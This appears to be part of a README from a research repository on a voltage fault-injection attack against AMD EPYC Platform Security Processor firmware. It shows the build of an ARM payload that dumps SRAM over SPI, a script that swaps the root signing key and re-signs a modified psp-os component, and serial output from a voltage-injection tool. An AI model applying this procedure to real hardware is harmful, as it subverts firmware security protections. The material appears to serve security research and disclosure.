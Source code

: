 ### Attack Payload
A small payload that will write "Hello, world!" and the SRAM contents to the SPI bus is located in the `hello-world` directory.
With an arm cross compiler installed this payload can be built as follows:
```
$ cd hello-world/
$ make
arm-none-eabi-gcc -Os -I../include -I../Lib/include ...
arm-none-eabi-ld -T linker.ld _start.o -o hello-world.elf
arm-none-eabi-objcopy -O binary hello-world.elf hello-world.raw
```

### Creating an attack image
Now we modify the original firmware image as follows:

* We replace the ARK with our generated key.
* We replace the psp-os firmware component with our generated payload.
   Among the changes to the header of this firmware component we change the security version number to 255.
* We re-sign the psp-os firmware component and its header with our key.

The python script `make_epyc3_pl.py` contains the code implementing this step.
The script contains some constants that might need to be changed for your specific application:
```py
# make_epyc3_pl.py
...

original_rom = 'roms/original_firmware.bin'
pubkey_offset = 0x66400
pubkey_length = 0x440
firmware_offset = 0x1b6400
firmware_length = 0x15100

pubkey_entry_path = 'OWN_KEY.ENTRY'
privkey_path = 'OWN_KEY.ID'

payload_bin = 'hello-world/hello-world.raw'

...
```
We use this script to create our attack firmware image:
```
$ python make_epyc3_pl.py roms/custom_firmware.bin
replacing the public key
replacing the firmware
writing output
```

## Parameter Determination

As a first step we flash the custom firmware image, open a serial connection to the Teensy and start the target device:
```
###########################                      
# AMD SVI2 Injection Tool #                      
###########################                      
Welcome type "help" for help!                    
> set hw config 1                                
>                                                
Restart detected!                                
Setting VSoc!                                    
Setting VCore and disabling telemetry!           
> 
```